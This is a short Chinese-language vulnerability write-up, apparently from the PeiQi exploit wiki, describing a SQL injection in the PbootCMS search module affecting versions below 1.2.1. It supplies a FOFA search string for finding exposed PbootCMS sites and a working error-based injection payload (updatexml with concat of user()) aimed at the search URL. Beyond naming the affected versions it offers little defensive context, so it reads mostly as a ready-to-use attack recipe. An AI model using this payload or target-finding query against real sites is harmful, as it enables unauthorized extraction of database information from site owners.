 ```yaml
---
title: PbootCMS search SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - PbootCMS
---
```


# PbootCMS  search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> PbootCMS < 1.2.1

## FOFA

> [!NOTE]
>
> app="PBOOTCMS"

## 漏洞复现

搜索框页面为

![image-20210702112736099](/img/20210924020232436715.png)

 Payload为

```
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![image-20210702112805069](/img/20210924020233104717.png)